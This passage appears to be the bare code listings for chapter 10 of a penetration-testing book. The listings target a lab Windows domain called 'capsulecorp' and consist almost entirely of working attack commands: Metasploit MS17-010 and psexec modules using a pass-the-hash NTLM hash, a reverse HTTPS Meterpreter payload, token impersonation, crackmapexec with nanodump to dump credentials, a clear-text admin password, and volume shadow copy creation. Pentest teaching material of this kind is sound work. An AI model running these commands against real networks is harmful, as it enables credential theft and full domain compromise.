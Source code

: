 # Chapter 10 Instructions

### Listing 10.1 Output of the net group command

```
net group "Domain Admins" /domain
```

```
Use auxiliary/admin/smb/ms17_010_command
set rhosts 10.0.10.204
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e
set threads 10
set command qwinsta
set verbose false
run
```

### Listing 10.3 Opening a new Meterpreter session on 10.0.10.207

```
use exploit/windows/smb/psexec
set rhosts 10.0.10.207
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e
set payload windows/x64/meterpreter/reverse_winhttps
exploit
```

### Listing 10.4 Listing available tokens with Incognito

```
load incognito
list_tokens -u
```

### Listing 10.5 Impersonating the domain admin account

```
impersonate_token capsulecorp\serveradmin
```

### Listing 10.6 Harvesting the clear-text password using Mimikatz

```
crackmapexec smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -M nanodump
```

### Listing 10.7 Locating the domain controller’s IP address

```
cme smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -x "cmd /c ping capsulecorp.local"
```

### Listing 10.8 Checking for an existing VSC

```
cme smb 10.0.10.200 -u serveradmin -p 'S3cr3tPa$$!' -x 'vssadmin list shadows'
```

### Listing 10.9 Creating a new VSC

```
vssadmin create shadow /for=C:
```
